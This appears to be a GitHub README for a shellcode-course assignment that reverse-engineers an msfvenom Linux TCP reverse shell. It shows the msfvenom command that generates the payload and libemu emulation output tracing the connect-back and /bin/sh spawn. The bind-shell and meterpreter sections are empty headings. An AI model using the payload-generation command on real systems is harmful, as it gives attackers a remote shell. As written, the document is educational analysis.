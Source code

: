 # SLAE course
This course can be found here:
[Link to course](https://www.pentesteracademy.com/course?id=3)

## Assignment#5: What to do ?
For this assignment we have to:
* Take up to three shellcodes examples created by Msfvenom
* Use a disassembler like GDB/Ndisasm/Libemu to reverse them
* Present the analysis 

## Introduction:
In order to do this assignment, I decided to divide the presentation of each shellcodes in 3 parts:
1) The first part which show and explain the assembly code generated by msfvenom.
2) The second part which show and explain the C pseudo code generated by Libemu.
3) The final part which contains a more high level review (a graph generated by libemu too) of the shellcode.

Now, let's get to work.
=

## 1) First shellcode: a tcp reverse shell
### 1.1) First part: the assembly 
The first shellcode, I decided to analyse, is a tcp reverse shell. This shellcode can be generated using msfvenom:
```console
#msfvenom -p linux/x86/shell_reverse_tcp -f elf -o reverse_shell 
``` 

We will use IDA to understand how the assembly of this shellcode works:

![ida_reverse_shell](https://github.com/RomainLanglois/Shellcode/blob/master/SLAE/assignment5/IDA_reverse_shell.png)

Based on the above code, we can divide this code in differents shellcode:

1) ...
2) ...

### 1.2) The second part: the C pseudo code
The C pseudo Code:
```console
msfvenom -p linux/x86/shell_reverse_tcp -f raw | ./sctest -vvv -Ss 100000

...
...
...

int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 369207488 (host=192.168.1.22);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

### 1.3) The third part: a graphical view
The final part is to create a more user friendly view of this shellcode (we will use libemu to do that):
```console
#msfvenom -p linux/x86/shell_reverse_tcp -f raw | ./sctest -vvv -Ss 100000 -G reverse_shell.dot
#dot reverse_shell.dot -T png -o reverse_shell.png
```
Here is a graphical view of the reverse shell code:

![graph_reverse_shell](https://github.com/RomainLanglois/Shellcode/blob/master/SLAE/assignment5/reverse_shell.png)


## 2) Second shellcode: a tcp bind shell
### 2.1) First part: the assembly 

### 2.2) The second part: the C pseudo code

### 2.3) The third part: a graphical view


## 3) Third shellcode: a meterpreter reverse tcp (stageless)
### 3.1) First part: the assembly 

### 3.2) The second part: the C pseudo code

### 3.3) 'The third part: a graphical view
